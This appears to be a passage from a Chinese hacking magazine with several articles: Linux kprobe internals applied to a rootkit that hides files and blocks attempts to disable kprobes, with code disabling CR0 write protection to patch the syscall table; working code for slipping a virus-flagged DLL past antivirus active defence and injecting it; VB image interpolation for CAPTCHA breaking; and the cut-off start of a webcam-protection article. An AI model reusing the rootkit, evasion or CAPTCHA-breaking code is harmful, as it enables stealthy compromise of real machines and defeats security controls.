    addr = (unsigned long)(kcb->jprobe_saved_sp);
    memcpy(kcb->jprobes_stack, (kprobe_opcode_t *)addr, MIN_STACK_SIZE(addr));
    regs->flags &= ~X86_EFLAGS_IF;
    trace_hardirqs_off();
    regs->ip = (unsigned long)(jp->entry);
    return 1;
}
```

图 5 Jprobe 预处理函数代码

特别注意代码中的注释，既然这是 Linus 说的，那么就一定是正确的。

从代码中可以看到，该函数首先使用 `stack_addr()` 宏得到当前栈的位置，然后使用 `memcpy` 将其复制到 `kcb->jprobes_stack` 中，该地址用于保存和恢复原始栈。在 jprobe 处理函数运行结束后，jprobe 后处理函数将被调用，代码如图 6 所示。

```c
int __kprobes longjmp_break_handler(struct kprobe *p, struct pt_regs *regs) {
    struct kprobe_ctlblk *kcb = get_kprobe_ctlblk();
    u8 *addr = (u8 *)(regs->ip - 1);
    struct jprobe *jp = container_of(p, struct jprobe, kp);
    if ((addr > (u8 *)jprobe_return) && (addr < (u8 *)jprobe_return_end)) {
        if (stack_addr(regs) != kcb->jprobe_saved_sp) {
            struct pt_regs *saved_regs = &kcb->jprobe_saved_regs;
            printk(KERN_ERR "current sp %p does not match saved sp %p\n", stack_addr(regs), kcb->jprobe_saved_sp);
            printk(KERN_ERR "Saved registers for jprobe %p\n", jp);
            show_registers(saved_regs);
            printk(KERN_ERR "Current registers\n");
            show_registers(regs);
            BUG();
        }
        *regs = kcb->jprobe_saved_regs;
        memcpy((kprobe_opcode_t *)(kcb->jprobe_saved_sp), kcb->jprobes_stack, MIN_STACK_SIZE(kcb->jprobe_saved_sp));
        preempt_enable_no_resched();
        return 1;
    }
    return 0;
}
```

图 6 Jprobe 后处理函数代码

该代码主要恢复栈并重新允许 CPU 的抢占，也就是说 probe 的处理函数在抢占禁用的环境下运行的。

### 3. 使用 jprobes/kretprobes 实现文件隐藏

本文将介绍一种涉及 `filldir64()` 中的 `dirent->d_name` 来实现的文件隐藏方法，如图 7 所示。

```c
char *hidden_files[] = {
#define HIDDEN_FILES_MAX 3
    "test1", "test2", "test3"
};

/* kretprobe 将操作的全局数据 */
static struct global_dentry_info {
    unsigned long d_name_ptr;
    int bypass;
} g_dentry;

struct getdents_callback64 {
    struct linux_dirent64 __user *current_dir;
    struct linux_dirent64 __user *previous;
    int count;
    int error;
};

/* jprobe 的处理函数，该函数保存 dirent->d_name 的值 */
static int j_filldir64(void *__buf, const char *name, int namlen, ...)
```

```c
offset, u64 ino, unsigned int d_type) {
    int found_hidden_file, i;
    struct linux_dirent64 __user *dirent;
    struct getdents_callback64 *buf = (struct getdents_callback64 *)__buf;
    dirent = buf->current_dir;
    int reclen = ROUND_UP64(NAME_OFFSET(dirent) + namlen + 1);
    g_dentry.bypass = 0;
    found_hidden_file = 0;
    for (i = 0; i < HIDDEN_FILES_MAX; i++)
        if (strcmp(hidden_files[i], name) == 0)
            found_hidden_file++;
    if (!found_hidden_file) goto end;
    g_dentry.d_name_ptr = (unsigned long)(unsigned char *)dirent->d_name;
    g_dentry.bypass++;   // 不显示该文件
end:
    jprobe_return();
    return 0;
}
static int filldir64_ret_handler(struct kretprobe_instance *ri, struct pt_regs *regs) {
    char *ptr, null = 0;
    if (g_dentry.bypass) {
        ptr = (char *)g_dentry.d_name_ptr;
        copy_to_user((char *)ptr, &null, sizeof(char));
    }
}
```

图 7 文件隐藏代码

该代码能够隐藏文件，使得任何使用 getdents64 来查看文件的程序无法显示隐藏文件。但是，GNU 的 `ls` 程序对于所查找到的 d_name 都会调用 lstat64。如果有 d_name 以 NULL 字节开头，那么 lstat64 将返回错误 “Cannot access ... : file not found”。因此，如果我们要隐藏 3 个文件，我们将看到 3 条错误信息。

使用 kprobe 来打补丁的一个主要不足在于我们无法修改函数的返回值。我们能够做到最多只是设置一个 kretprobe 来修改该函数操作过的数据。有时，我们可能可以通过一些间接的方法来修改返回值。但是我们并未找到任何基于 kprobes 的方法来做到这点。然而，本文发现了一个不怎么完美的方法，通过对 sys_write 使用 jprobe 和 kretprobe 将 stderr 重定向到 /dev/null。

另外，除了修改 sys_write，我们也可以将任何禁止 kprobes 的企图重定向到 /dev/null。超级用户可以直接使用 `echo 0 > /sys/kernel/debug/kprobes/enabled` 来禁用 kprobes 接口。当我们安装 LKM 的时候，传给 insmod 的一个参数是 /sys 的 inode。图 8 是修改后的 sys_write 代码。

```c
asmlinkage static int j_sys_write(int fd, void *buf, unsigned int len) {
    char *s = (char *)buf;
    char null = '\0';
    char devnull[] = "/dev/null";
    struct file *file;
    struct dentry *dentry = NULL;
    unsigned int ino;
    int ret;
    char comm[255];
    stream_redirect = 0;
    get_task_comm(comm, current);
    if (strcmp(comm, "ls") != 0) goto out;
    if (strstr(s, "cannot access") || strstr(s, "ls:")) {
        printk("Going to redirect\n");
        goto redirect;
    }
    ...
}
```

```c
unsigned int ino;
int ret;
char comm[255];
stream_redirect = 0;
get_task_comm(comm, current);
if (strcmp(comm, "ls") != 0) goto out;
if (strstr(s, "cannot access") || strstr(s, "ls:")) {
    printk("Going to redirect\n");
    goto redirect;
}
file = fget(fd);
if (!file) goto out;
dentry = dget(file->f_dentry);
if (!dentry) goto out;
ino = dentry->d_inode->i_ino;
dput(dentry);
fput(file);
if (ino != enabled_ino) goto out;
redirect:
    stream_redirect++;
    mm_segment_t o_fs = get_fs();
    set_fs(KERNEL_DS);
    n_sys_close(fd);
    fd = n_sys_open(devnull, O_RDWR, 0);
    set_fs(o_fs);
    global_fd = fd;
out:
    jprobe_return();
    return 0;
}
static int sys_write_ret_handler(struct kretprobe_instance *ri, struct pt_regs *regs) {
    if (stream_redirect) {
        n_sys_close(global_fd);
        stream_redirect = 0;
    }
    return 0;
}
```

图 8 修改 sys_write 的代码

我们关闭当前的文件描述符并打开一个新的文件且使用相同的文件描述符号。将 stderr 重定向到 /dev/null 仅对当前进程有效。为了能够更深入地理解，我们来分析一下 do_sys_open()，如图 9 所示。

```c
long do_sys_open(int dfd, const char __user *filename, int flags, int mode) {
    char *tmp = getname(filename);
    int fd = PTR_ERR(tmp);
    if (!IS_ERR(tmp)) {
        fd = get_unused_fd_flags(flags);
        if (fd >= 0) {
            struct file *f = do_filp_open(dfd, tmp, flags, mode, 0);
            if (IS_ERR(f)) {
                put_unused_fd(fd);
                fd = PTR_ERR(f);
            } else {
                /* 通知 fsnotify_open() */
                fsnotify_open(f->f_path.dentry);
                /* 将 fd 与 /dev/null 关联 */
                fd_install(fd, f);
                trace_do_sys_open(tmp, flags, mode);
            }
        }
        putname(tmp);
    }
    return fd;
}
```

图 9 do_sys_open() 分析

使用 fd_install() 将新的文件描述符与对应的文件（struct files_struct *）相关联，如图 10 所示。

```c
void fd_install(unsigned int fd, struct file *file) {
    struct files_struct *files = current->files;
    struct fdtable *fdt;
    spin_lock(&files->file_lock);
    fdt = files_fdtable(files);
    BUG_ON(fdt->fd[fd] != NULL);
    rcu_assign_pointer(fdt->fd[fd], file);
    spin_unlock(&files->file_lock);
}
```

图 10 fd_install() 代码

因为 rootkit 已经是个很普通的话题了，因此本文将用一些其他的 kprobe 例子。首先我们来讨论 kretprobe 的实现。我们将看到更多的 kprobes 限制。

### 4. Kretprobes 实现

Kretprobe 的实现很有趣，因为其很多创新性并且是很优秀的工程代码。摘自 kprobes.txt：当调用 register_kretprobe() 时，kprobes 在函数的入口点建立了一个 kprobe。当该函数被调用时并且该 kprobe 被触发了，kprobes 保存一份返回地址并且将返回地址替换成我们的地址。新地址所在的位置是任意的一段代码，例如 nop 指令。/usr/src/linux/kernel/kprobes.c 中的 register_kretprobe() 代码如图 11 所示。

```c
int __kprobes register_kretprobe(struct kretprobe *rp) {
    int ret = 0;
    struct kretprobe_instance *inst;
    int i;
    void *addr;
    ... <code> ...
    rp->kp.pre_handler = pre_handler_kretprobe;
    rp->kp.post_handler = NULL;
    rp->kp.fault_handler = NULL;
    rp->kp.break_handler = NULL;
    ... <code> ...
}
```

图 11 register_kretprobe() 代码

当 kretprobe 触发时，pre_handler_kretprobe() 将调用 arch_prepare_kretprobe()，该函数将保存原始的返回地址并插入新的返回地址，其代码如图 12 所示。

```c
void __kprobes arch_prepare_kretprobe(struct kretprobe_instance *ri, struct pt_regs *regs) {
    unsigned long *sara = stack_addr(regs);
    ri->ret_addr = (kprobe_opcode_t *)*sara;
    *sara = (unsigned long)&kretprobe_trampoline;
}
```

图 12 arch_prepare_kretprobe() 代码

```c
asm volatile (
    ".global kretprobe_trampoline\n"
    "kretprobe_trampoline:\n"
    "    subl $16, %esp\n"
    "    pushl %fs\n"
    "    pushl %es\n"
    "    pushl %ds\n"
    "    pushl %eax\n"
    "    pushl %ebp\n"
    "    pushl %edi\n"
    "    pushl %esi\n"
    "    pushl %edx\n"
    "    pushl %ecx\n"
    "    pushl %ebx\n"
    "    movl %esp, %eax\n"
    "    call trampoline_handler\n"
    "    movl 56(%esp), %edx\n"
    "    movl %edx, 52(%esp)\n"
    "    movl %eax, 56(%esp)\n"
    "    popl %ebx\n"
    "    popl %ecx\n"
    "    popl %edx\n"
    "    popl %esi\n"
    "    popl %edi\n"
    "    popl %ebp\n"
    "    popl %eax\n"
    "    addl $24, %esp\n"
    "    popfl\n"
    "    ret\n");
```

图 13 X86 上 trampoline 的定义

当寄存器状态已经保存到栈上后，上述代码将调用 trampoline_handler()，该函数将执行与其关联的处理函数。图 14 是 trampoline_handler() 函数。

```c
static __used __kprobes void *trampoline_handler(struct pt_regs *regs) {
    struct kretprobe_instance *ri = NULL;
    struct hlist_head *head, empty_rp;
    struct hlist_node *node, *tmp;
    unsigned long flags, orig_ret_address = 0;
    unsigned long trampoline_address = (unsigned long)&kretprobe_trampoline;
    INIT_HLIST_HEAD(&empty_rp);
    kretprobe_hash_lock(current, &head, &flags);
#ifdef CONFIG_X86_64
    regs->cs = __KERNEL_CS;
#else
    regs->cs = __KERNEL_CS | get_kernel_rpl();
    regs->gs = 0;
#endif
    regs->ip = trampoline_address;
    regs->orig_ax = ~0UL;
    hlist_for_each_entry_safe(ri, node, tmp, head, hlist) {
        if (ri->task != current) continue;
        if (ri->rp && ri->rp->handler) {
            __get_cpu_var(current_kprobe) = &ri->rp->kp;
            get_kprobe_ctlblk()->kprobe_status = KPROBE_HIT_ACTIVE;
            ri->rp->handler(ri, regs);
            __get_cpu_var(current_kprobe) = NULL;
        }
    }

    orig_ret_address = (unsigned long)ri->ret_addr;
    recycle_rp_inst(ri, &empty_rp);
    if (orig_ret_address != trampoline_address)
        break;
}
kretprobe_assert(ri, orig_ret_address, trampoline_address);
kretprobe_hash_unlock(current, &flags);
hlist_for_each_entry_safe(ri, node, tmp, &empty_rp, hlist) {
    hlist_del(&ri->hlist);
    kfree(ri);
}
return (void *)orig_ret_address;
}
```

图 14 trampoline_handler() 代码

### 5. 修改只读内核数据段

如果你对使用 trampoline 来劫持 arch_prepare_kretprobe() 感兴趣，那么需要记住现在的 Intel CPU 有了 WRITE_PROTECT 位来防止对只读段的修改。因此，任何时候如果你想修改 .rodata 段中的内核数据结构，你需要使用如下的代码来实现。下面的几种数据结构通常在内核的 text 段：

- 1. `void **sys_call_table`
- 2. `const struct file_operations <fs_fops_name>`
- 3. `const struct vm_ops <vma_vmops_name>`
- 4. 内核函数

定义为 `const` 的数据结构将被放在 .rodata 段中。该段在 text 段的末尾处，而内核代码通常在 .text 段。试图对这些区域进行写操作将产生错误。

有些人修改只读段相对应的页表项数据，但是如图 15 所示的代码更简单：

```c
static void disable_wp(void) {
    unsigned int cr0_value;
    asm volatile ("movl %%cr0, %0" : "=r" (cr0_value));
    cr0_value &= ~(1 << 16);
    asm volatile ("movl %0, %%cr0" :: "r" (cr0_value));
}

static void enable_wp(void) {
    unsigned int cr0_value;
    asm volatile ("movl %%cr0, %0" : "=r" (cr0_value));
    cr0_value |= (1 << 16);
    asm volatile ("movl %0, %%cr0" :: "r" (cr0_value));
}
```

图 15 修改只读段的代码

因此如果你想修改 text 段（sys_call_table）中的某个内核函数指针：首先调用 disable_wp()；然后调用 `sys_call_table[__NR_write] = (void *)n_sys_write`；最后再调用 enable_wp()。

### 6. Kretprobe 对于黑客的用处

Kprobes 对于内核补丁实现的主要限制在于，我们无法修改 kretprobes 中的返回值。我们可以实现一个与 kretprobe 类似的实现。这样我们就可以利用 kprobes 来修改代码并可以修改返回值了。因此，对于文件隐藏的例子，我们就可以对于 filldir64 直接返回 0。

如果读者能够深入研究一下 /usr/src/linux/kernel/kprobes.c 中 kretprobes 的实现，就会发现我们可以设计一个更灵活的 kretprobe。下面本文将给出一个框架，如图 16 所示。

```c
int register_rpe(struct kretprobe *rp) {
    ... <code> ...
    rp->kp.pre_handler = pre_handler_rpe;
    ... <code> ...
}

static int pre_handler_rpe(struct kprobe *p, struct pt_regs *regs) {
    arch_prepare_rpe(regs);
}

void arch_prepare_rpe(struct pt_regs *regs) {
    unsigned long *ret = stack_addr(regs);
    ret_addr = (kprobe_opcode_t *)*ret;
    *ret = (unsigned long)&rpe_trampoline;
}
```

图 16 一个更灵活的 kretprobe 结构

RPE trampoline 既可以是一段汇编也可以是一个真正的函数，如图 17 所示。

```c
__asm__("movl $val, %eax\n"
        "push $ret_addr\n"
        "ret");
```

图 17 RPE trampoline 示例代码

## 总结

本文介绍了 kprobe 接口，其主要用于内核调试并可被用于修改内核从而实现攻击。本文分析了 kprobes 的作用、弱点并提供了几个 jprobe 和 kretprobe 的实例。另外，本文还提出了一个更灵活的 kretprobe 实现。

最后，如果仅用 kprobes 来实现内核 rootkit 并在 sysfs 中隐藏自己，rootkit 检测程序可以很容易地检测哪些内核函数被 hook 了。

前置知识：VC

关键词：文件，主动防御，杀毒软件

## 另类过主动防御


图/文 腾袭

记得在去年的时候，笔者曾经投过《另类过主动防御系统》和《“藏”好你的数据》的文章。前者文章中使用的是远程注入这种比较老的技术，但是使用这个注入的 DLL 很可能会被杀毒软件将程序判断为风险文件，这时我们就要想个办法规避这个问题。后者文章中使用的是 LZMA 压缩文件保存在 EXE 中，需要时再释放出来。本文中使用了这两篇文章的一些技术。

经过一段时间的主动防御触发行为的研究，笔者认为，部分杀毒软件在程序运行过程中会记录应用程序创建的文件，并且会对应用程序调用这些文件加大监控的力度。

因此，笔者有一个想法：如果我们在程序创建文件后重启程序，便可以将杀毒软件记录的关于程序运行时创建文件的记录消除，再使用这个创建的文件。但是，又有个新的问题，如何保护我们的文件内容不被直接检查呢？这时，我想到了之前用 LZMA 压缩算法压缩文件来保护文件不被直接检查出来。万事俱备，只欠东风，我们现在就来实现这个吧。

笔者做测试时释放的一个文件，是被瑞星直接扫描时会判断危险的 DLL 文件。经过这样的释放，最终没有被主动防御判定行为危险，并且成功加载和注入桌面进程，如图 1 所示。


图 1

另外，在测试 360 安全卫士的时候，这个释放出来的 DLL（释放在临时文件夹）也没有被直接删除，并且成功注入桌面进程；而要是直接查杀的话也是一个病毒文件。但是由于要安装服务，被 360 拦截了，不过我们也成功注入并执行了！我们只要不是用安装服务，比如一次性的使用，这样还是很方便的，如图 2 所示。


图 2

当然，对于卡巴斯基来说，我们的 EXE 经过它的启发式扫描，就直接报毒了，更不用说加载了。

程序的大致流程图如下。首先，我们可以使用命令行选项来控制程序的状态：

- 无命令：第一步；
- `-1`：第二步；
- `-2`：第三步（加载文件，同时我们也还可以将文件移动（MoveFile）一次，然后再加载，这样可能会更安全，代码中为了测试方便并没有移动文件）。


然后，我们需要将自己需要的文件压缩并转换为数据。这里为了使用方便，仅仅压缩了一个简单的 DLL。接下来就是实现代码：

- 1）压缩数据的结构：
  - a）文件头：原始文件长度（4 byte）| 属性表大小（4 byte）
  - b）文件数据：文件头（8 byte）+ 属性表信息（5 byte，同时在文件头中定义）+ 数据

- 2）预定义要解压出的文件名称（用预定义可以提高代码可读性并方便修改）：

```c
#define DLL_NAME    L"test_uncompress.dll"
```

- 3）程序主体代码：

```cpp
// path
TCHAR path[MAX_PATH] = {0};
TCHAR filepath[MAX_PATH];
::GetModuleFileName(NULL, path, MAX_PATH);
lstrcpy(filepath, path);
for (int i = lstrlen(filepath) - 1; i > 0; i--) {
    if (filepath[i] == '\\') {
        filepath[i + 1] = 0;
        break;
    }
}
lstrcat(filepath, DLL_NAME);
if (wcsstr(lpCmdLine, L"-2") != NULL) {
    HMODULE hDll = ::LoadLibraryW(filepath);
    // do something here
    ::FreeLibrary(hDll);
    ::DeleteFile(filepath);
} else {
    // 原始文件长度(4byte) | 属性表大小(4byte)
}
```

```cpp
DWORD dwHeader[2];
memcpy(dwHeader, lzmadata, sizeof(DWORD) * 2);
BYTE *uncompressdata = (BYTE*)malloc(dwHeader[0]);
size_t datasize = sizeof(lzmadata) - (sizeof(DWORD) * 2 + dwHeader[1]);
size_t propsize = dwHeader[1];
int status = LzmaUncompress(
    uncompressdata, (size_t*)&dwHeader[0],
    lzmadata + sizeof(DWORD) * 2 + dwHeader[1],
    &datasize, lzmadata + sizeof(DWORD) * 2, propsize
);
if (status == SZ_OK) {
    DWORD dwWrite;
    HANDLE hFile = INVALID_HANDLE_VALUE;
    DWORD writesize = dwHeader[0] / 2;
    if (wcsstr(lpCmdLine, L"-1") != NULL) {
        DWORD pos = writesize;
        writesize = dwHeader[0] - writesize;
        hFile = ContinueWriteToFile(filepath);
        if (hFile != INVALID_HANDLE_VALUE) {
            ::SetFilePointer(hFile, pos, NULL, FILE_BEGIN);
            ::WriteFile(hFile, uncompressdata + pos, writesize, &dwWrite, NULL);
            CloseHandle(hFile);
        }
        lstrcat(path, L"-2");
    } else {
        hFile = StartWriteToFile(filepath);
        if (hFile != INVALID_HANDLE_VALUE) {
            ::WriteFile(hFile, uncompressdata, writesize, &dwWrite, NULL);
            CloseHandle(hFile);
        }
        lstrcat(path, L"-1");
    }
    CreateNextProcess(path);
}
free(uncompressdata);
return 0;
```

- 4）其他部分代码在附件中给出。想必看到此处读者们都已经明白具体原理了吧，这种方法只适用于部分杀毒软件主动防御的突破，像瑞星等。

---

前置知识：VB

关键词：VB，图像，验证码

# VB 中图像的插值算法

图/文 李劼杰


由于较规则的图片验证码识别，对于一些旋转角度很大的验证码难以适用。故为了识别出更复杂的验证码，本文介绍使用 VB6 实现插值算法，把二值化并切割以后的单个字符图像，伸缩放到一个固定大小的矩形中。

## 简介

简单来讲，插值算法可以把一张矩形图片缩小或放大为任意大小的新矩形图像。验证码图片被切割成几个区域后，它们的大小不一定相同，通过伸缩到固定的长和宽，可以写入为标准统一的模板文件，如图 1 所示。


这 4 个字符在 X 轴和 Y 轴上切割后，得到 4 个小矩形，但它们大小不同。如果直接写入模板，即便同一个字符，当倾斜程度不同时，字符矩形大小也不相同。

VB6.0 中使用 PictureBox 控件的 PaintPicture 方法可以实现放大或缩小图像，但是它的横纵比例是保持不变的。插值算法没有这样的限制，它的目标图像可以是任意长宽比。

## 算法描述

将目标图像中的所有像素点一一映射回源图像，通过源图像所在位置周围的 4 个像素点，计算得出该点是黑色还是白色：如果映射回的点位于 4 个顶点，则直接取该顶点颜色；如果映射回的点位于边沿上，则取该边上临近的 2 个点中最近的点颜色。

下面简单举例说明：我们将一个大小为 3×3 的图像放大为 5×7，如图 2 所示。


源图像横坐标范围是 0~2，纵坐标范围是 0~2。目标图像横坐标范围是 0~4，纵坐标范围是 0~6。遍历目标图像中的所有点，计算它们应该是黑色还是白色。X 轴上图像放大倍数是 2，Y 轴上放大倍数是 7/3=2.33。

1. 目标像素 (0,0) 映射到 (0/2, 0/2.33)，也就是 (0,0)。因为 (0,0) 位于顶点，直接把目标像素点设置为源 (0,0) 的颜色就可以了。继续处理点 (0,1)，它映射到 (0/2, 1/2.33)，取整数部分后仍然是 (0,0)，所以依然设置为顶点 (0,0) 的颜色。  
2. 处理点 (0,3) 时，它映射到源 (0/2, 3/2.33)，也即 (0,1.29)，如图 3 所示。


图 3 （0,3）映射到 (0,1.29)

此时它到 (0,1) 的距离比到 (0,2) 的距离更近，因此最终设定为源 (0,1) 的颜色。  
3. 处理点 (3,6) 时，映射到源 (3/2, 6/2.33)，也即 (1.5,2.6)。此时我们需要用下述公式进行计算：

> 对于一个目标坐标，通过映射法得到其在原始图像的对应浮点坐标 (i+u, j+v)，其中 i、j 均为非负整数，u、v 为 [0,1] 区间的浮点数，则这个像素的值 f(i+u, j+v) 可由原图像中坐标为 (i,j)、(i+1,j)、(i,j+1)、(i+1,j+1) 所对应的周围四个像素的值决定，即：  
>  
> f(i+u,j+v)=(1-u)×(1-v)×f(i,j)+(1-u)×v×f(i,j+1)+u×(1-v)×f(i+1,j)+u×v×f(i+1,j+1)

这就是双线性内插值法。

通过上述公式，我们可以计算得到一个十六进制颜色值，计算其灰度作为阈值。当最终灰度值小于 128，我们就设定为黑色；否则设定为白色。

## 编程实现

程序主窗体的基本布局如图 4 所示。


图 4 窗体的基本布局

3 个 PictureBox 从左至右、从上到下，分别为 Pic1、Pic2 和 Pic3。一个按钮为 CmdZoom。

添加一个通用模块 ModuleGetRGB，写入将十六进制颜色值转换为 RGB 三原色的函数：

```vb
Public Function ColorRGB(Color As Long) As Byte()
    Const ByN As Integer = 256
    Const ByN2 As Long = 65536
    Dim A(2) As Byte
    A(0) = (Color Mod ByN)
    A(1) = ((Color Mod ByN2) \ ByN)
    A(2) = (Color \ ByN2)
    ColorRGB = A
End Function
```

按钮的单击事件代码如下：

```vb
Private Sub CmdZoom_Click()
    '改变目标图片大小
    Pic2.Width = Pic1.Width * 2
    Pic2.Height = Pic1.Height * 2
    '直接放大
    Pic2.PaintPicture Pic1, 0, 0, Pic1.ScaleWidth * 2, Pic1.ScaleHeight * 2

    '先得到放大倍数
    Dim RateX As Single
    Dim RateY As Single
    RateX = Pic3.ScaleWidth / Pic1.ScaleWidth
    RateY = Pic3.ScaleHeight / Pic1.ScaleHeight

    '计数变量 h 和 w
    Dim h As Long
    Dim w As Long

    '临时变量，保存取整后的结果
    Dim TempIntX As Integer
    Dim TempIntY As Integer
    Dim Color_Up
    Dim Color_Down
    Dim Color_Left
    Dim Color_Right
    Dim Temp_Red As Integer
    Dim Temp_Green As Integer
    Dim Temp_Blue As Integer
    Dim Dbl_Color As Double
    Dim u As Single
    Dim v As Single

    For h = 0 To Pic3.ScaleHeight
        For w = 0 To Pic3.ScaleWidth
            '取整后的横纵坐标
            TempIntX = Int(w / RateX)
            TempIntY = Int(h / RateY)

            '取整后可能越界，则使用边界值
            If TempIntX > Pic1.ScaleWidth - 1 Then TempIntX = Pic1.ScaleWidth - 1
            If TempIntY > Pic1.ScaleHeight - 1 Then TempIntY = Pic1.ScaleHeight - 1

            '处理最边界的4个顶点（节选）
            If (...) Then
                Pic3.PSet (w, h), Pic1.Point(TempIntX, TempIntY)

            '继续处理4条边
            ElseIf (TempIntX = 0 And TempIntY <> 0 And TempIntY <> Pic1.ScaleHeight - 1) Then
                '左侧边
                If h / RateY - TempIntY > 0.5 Then
                    Pic3.PSet (w, h), Pic1.Point(TempIntX, TempIntY + 1)
                Else
                    Pic3.PSet (w, h), Pic1.Point(TempIntX, TempIntY)
                End If
            ElseIf (TempIntX = Pic1.ScaleWidth - 1 And TempIntY <> 0 And TempIntY <> Pic1.ScaleHeight - 1) Then
                '右侧边
                If h / RateY - TempIntY > 0.5 Then
                    Pic3.PSet (w, h), Pic1.Point(TempIntX, TempIntY + 1)
                Else
                    Pic3.PSet (w, h), Pic1.Point(TempIntX, TempIntY)
                End If
            ElseIf (TempIntY = 0 And TempIntX <> 0 And TempIntX <> Pic1.ScaleWidth - 1) Then
                '上侧边
                If w / RateX - TempIntX > 0.5 Then
                    Pic3.PSet (w, h), Pic1.Point(TempIntX + 1, TempIntY)
                Else
                    Pic3.PSet (w, h), Pic1.Point(TempIntX, TempIntY)
                End If
            ElseIf (TempIntY = Pic1.ScaleHeight - 1 And TempIntX <> 0 And TempIntX <> Pic1.ScaleWidth - 1) Then
                '下侧边
                If w / RateX - TempIntX > 0.5 Then
                    Pic3.PSet (w, h), Pic1.Point(TempIntX + 1, TempIntY)
                Else
                    Pic3.PSet (w, h), Pic1.Point(TempIntX, TempIntY)
                End If
            Else
                '中间位置的点
                u = w / RateX - Int(w / RateX)
                v = h / RateY - Int(h / RateY)
                Dbl_Color = (1 - u) * (1 - v) * Pic1.Point(TempIntX, TempIntY) + _
                            (1 - u) * v * Pic1.Point(TempIntX, TempIntY + 1) + _
                            u * (1 - v) * Pic1.Point(TempIntX + 1, TempIntY) + _
                            u * v * Pic1.Point(TempIntX + 1, TempIntY + 1)

                '计算灰度值
                Dim Grey As Integer
                '使用临时变量 Color_Up
                Color_Up = ColorRGB(CLng(Dbl_Color))
                Grey = 0.3 * Color_Up(0) + 0.59 * Color_Up(1) + 0.11 * Color_Up(2)
                If Grey < 128 Then
                    Pic3.PSet (w, h), vbBlack
                Else
                    Pic3.PSet (w, h), vbWhite
                End If
            End If
        Next w
    Next h
End Sub
```

先处理 4 个顶点，然后处理 4 条边，最后处理其他位置的点。右侧的 Pic2 是通过 PictureBox 的 PaintPicture 方法放大的，下侧的 Pic3 是通过双线性插值方法放大。

使用 Int 函数取整后的坐标可能越界，代码中特别处理了一下。Dbl_Color 是计算出来的十六进制颜色值。因为本例中我们只需要黑白两种颜色，因此需要计算其灰度：

灰度值 = 0.3 × Red 分量 + 0.59 × Green 分量 + 0.11 × Blue 分量。

最终计算出来的灰度值，如果小于 128，目标像素点就被设定为黑色；否则设定为白色。

运行该程序，如图 5 所示。


图 5 运行结果

可见图像已经被放大，而下方 Pic3 的长宽是可以任意改变的。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

## 小结

本文介绍了线性插值方法伸缩图像，为更复杂的验证码识别打下基础。

前置知识：VC

关键词：Win64，摄像头，主动防御


## Win64上实现摄像头开启防护

文 / 胡文亮

在主动防御里，最为重要的是哪个？我认为就是摄像头开启保护。在摄像头没有广泛作为计算机的一个外设之前，一个最恶劣的病毒程序最多可以销毁数据、盗窃财产（包括虚拟财产和真实财产）、顶多损坏硬件（如 CIH）。假如你的硬盘里没有什么私人“艳照”之类的东西，病毒程序造成的损失还是可以用金钱来衡量的。但是如果您的电脑配备了摄像头，特别是那种工作时没有任何提示（如发光二极管点亮则代表工作）的山寨摄像头，你在电脑前的一些不雅举动可能随时会被病毒程序传上微博，传遍全世界，这种损失是无法用金钱衡量的。所以实现摄像头开启保护是很有必要的。现在越来越多的人选择使用 64 位 Windows 操作系统，所以本文就介绍一种防止摄像头被偷偷开启的方法。我使用的操作系统是 Windows 7 x64，安装了 QQ 管家 5.0，它能在 32 位程序试图开启摄像头时给出警报，却不能在 64 位程序试图开启摄像头时给出警报。所以本文的目标，就是实现这个功能。

据我搜索，网上很多关于摄像头编程的代码，无一例外都使用了 avicap32.dll 中导出的 capCreateCaptureWindow 函数。从字面意思上看，此函数起到了“创建捕获窗口”的作用。以下这段代码是从网上一份广泛流传的使用摄像头的代码中摘出的核心部分：

```cpp
MessageBox(0,"capCreateCaptureWindow 调用失败！程序即将退出！","提示",0);
ExitProcess(0);
}
else
{
    MessageBox(0,"capCreateCaptureWindow 调用成功！","提示",0);

    capSetCallbackOnError(ghWndCap,(FARPROC)ErrorCallbackProc);
    capSetCallbackOnStatus(ghWndCap,(FARPROC)StatusCallbackProc);
    capSetCallbackOnFrame(ghWndCap,(FARPROC)FrameCallbackProc);

    capDriverConnect(ghWndCap,0); // 将捕获窗口驱动器连接
    // 获得驱动器的能力，相关的信息放在结构变量 gCapDriverCaps 中
    capDriverGetCaps(ghWndCap,&gCapDriverCaps,sizeof(CAPDRIVERCAPS));

    capPreviewRate(ghWndCap,66); // 设置 Preview 模式的显示速率
    capPreview(ghWndCap, TRUE); // 启动 Preview 模式

    if(gCapDriverCaps.fHasOverlay) // 检查驱动器是否有叠加能力
        capOverlay(ghWndCap,TRUE); // 启动 Overlay 模式

    if(gCapDriverCaps.fHasDlgVideoSource)
        capDlgVideoSource(ghWndCap); // Video source 对话框
    if(gCapDriverCaps.fHasDlgVideoFormat)
        capDlgVideoFormat(ghWndCap); // Video format 对话框
    if(gCapDriverCaps.fHasDlgVideoDisplay)
        capDlgVideoDisplay(ghWndCap); // Video display 对话框

    capFileSetCaptureFile(ghWndCap, szCaptureFile); // 设定捕获文件名
    capFileAlloc(ghWndCap, (1024L * 1024L * 5)); // 为捕获文件分配存储空间
    capCaptureSequence(ghWndCap); // 开始捕获视频序列
}
```

```cpp
case WM_CREATE:
{
    ghWndCap = capCreateCaptureWindow((LPSTR)"Capture Window", WS_CHILD|WS_VISIBLE, 0,0,300,240,(HWND)hwnd,(int)0);
    if(ghWndCap==0)
    {
        ...
    }
}
```

```cpp
capGrabFrame(ghWndCap); // 捕获单帧图像
}
break;
}
```

说句牢骚话，大家看到里面有一大堆类似 capXXX 的东西，其实它们不都是函数，准确地说只有 capCreateCaptureWindow 是函数，其他的都是宏。比如：

```cpp
#define capSetCallbackOnError(hwnd, fpProc)
((BOOL)AVICapSM(hwnd,
WM_CAP_SET_CALLBACK_ERROR, 0,
(LPARAM)(LPVOID)(fpProc)))

#define capSetCallbackOnStatus(hwnd, fpProc)
((BOOL)AVICapSM(hwnd,
WM_CAP_SET_CALLBACK_STATUS, 0,
(LPARAM)(LPVOID)(fpProc)))

#define capSetCallbackOnYield(hwnd, fpProc)
((BOOL)AVICapSM(hwnd,
WM_CAP_SET_CALLBACK_YIELD, 0,
(LPARAM)(LPVOID)(fpProc)))

#define capSetCallbackOnFrame(hwnd, fpProc)
((BOOL)AVICapSM(hwnd,
WM_CAP_SET_CALLBACK_FRAME, 0,
(LPARAM)(LPVOID)(fpProc)))

#define capSetCallbackOnVideoStream(hwnd, fpProc)
((BOOL)AVICapSM(hwnd,
WM_CAP_SET_CALLBACK_VIDEOSTREAM, 0,
(LPARAM)(LPVOID)(fpProc)))

